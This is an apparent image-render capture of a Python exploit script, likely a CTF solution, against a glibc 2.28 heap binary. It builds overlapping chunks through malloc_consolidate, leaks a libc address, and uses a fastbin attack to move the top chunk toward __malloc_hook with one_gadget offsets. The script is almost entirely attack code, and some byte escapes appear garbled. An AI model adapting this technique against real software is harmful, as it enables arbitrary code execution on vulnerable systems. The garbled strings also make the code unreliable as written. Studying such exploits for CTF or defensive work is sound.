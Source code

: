 ```
delete(3)
delete(4)

#malloc some chunk , prepare for overlapped chunk.
add(0x48) # idx 3
add(0x48) # idx 4
add(0x48) # idx 6
add(0x48) # idx 8
add(0x58) # idx 9
add(0x58) # idx 10

#The delete order can't be changed.
delete(7)
delete(3)

#trigger malloc_consolidate() , make overlapped chunk.
add(0x28) # idx 3 
#now [chunk_4/chunk_6/chunk_8/chunk_9/chunk_10] is overlapped.

#leak libc
add(0x18) # idx 7
view(4)

p.recvuntil('Chunk[4]: ')
libc = p.recv(6)
libc = libc.ljust(8,'x00')
libc = u64(libc)
print 'libc : '+ hex(libc)
libc_base = libc - 0x1e4ca0
print 'libc_bsae : ' + hex(libc_base)


#fastbin attack and then modify the top_chunk address.
delete(0) # put chunk in fastbin , prepare for fastbin attack
#addr1 = 0x7ffff7fc6c6d  offset = 0x1e4c6d padding = 0x23 
addr1 = libc_base + 0x1e4c6d
add(0x48) # idx 0 = idx 4
delete(0)
edit(4,8,p64(addr1))
add(0x48) # idx 0

add(0x48) # idx 11 get the main_arena

elf = ELF('./libc-2.28.so')
new_top = libc_base + elf.symbols['__malloc_hook'] - 0x28
one_gadget = libc_base + 0x501e3
jump_gadget = libc_base + 0x105ae0

print 'new_top : ' + hex(new_top)
print 'one_gadget : ' + hex(one_gadget)
print 'jump_gadget : '+ hex(jump_gadget)

payload = 'x00'*0x23 + p64(new_top)
edit(11,len(payload),payload)

delete(0)
delete(1)
delete(2)
delete(3)
#consume the unsorted bin
for i in range(4):
    add(0x58)

```